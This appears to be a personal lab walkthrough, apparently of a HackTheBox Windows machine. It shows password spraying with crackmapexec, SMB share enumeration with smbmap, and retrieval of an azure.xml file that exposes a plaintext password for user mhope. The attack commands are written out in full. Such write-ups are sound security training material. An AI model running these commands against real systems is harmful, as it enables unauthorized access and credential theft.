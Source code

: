 Running #crackmapexec with user.lst and password.lst

`crackmapexec smb 10.10.10.172 -u users.lst -p password.lst`

![[Pasted image 20241219203142.png]]
Got one user:password match for SABatchJobs: SABatchJobs. No (pwned) so no admin privs. 

Try connecting with #crackmapexec and #winrm 

`crackmapexec winrm 10.10.10.172 -u SABatchJobs -p SABatchJobs`

This failz 

![[Pasted image 20241219203509.png]]

Trying smb share enumeration with #smbmap 

`smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172`

![[Pasted image 20241219203726.png]]
Let's enumerate the users share using #smbmap 

`smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172 -r --exclude SYSVOL,IPC$`

See usernames but don't have privileges to go into the user directory 

![[Pasted image 20241219204155.png]]

We want to re-run with `-R` to recursively list all contents within each directory

![[Pasted image 20241219204404.png]]
`smbmap -u SABatchJobs -p SABatchJobs -H 10.10.10.172 -R

We have permissions to go in the mhope directory who has an azure.xml file 

![[Pasted image 20241219204705.png]]
Can obtain this file using #smbclient 

`smbclient -U SABatchJobs //10.10.10.172/users$`

Enter SABatchJobs as password. 

cd into mhope directory and `get azure.xml`

![[Pasted image 20241219204952.png]]
Can also use #smbmap again with `--download` flag

`smbmap -U SABatchJobs -p SABatchJobs -H 10.10.10.172 --download users$/mhope/azure.xml`

Contents of this file. Got another password. 
'4n0therD4y@n0th3r$'

![[Pasted image 20241219205227.png]]
Find out the user with the users.lst and #crackmapexec 

`crackmapexec smb 10.10.10.172 -u users.lst -p '4n0therD4y@n0th3r$'`

This is mhope's password. 
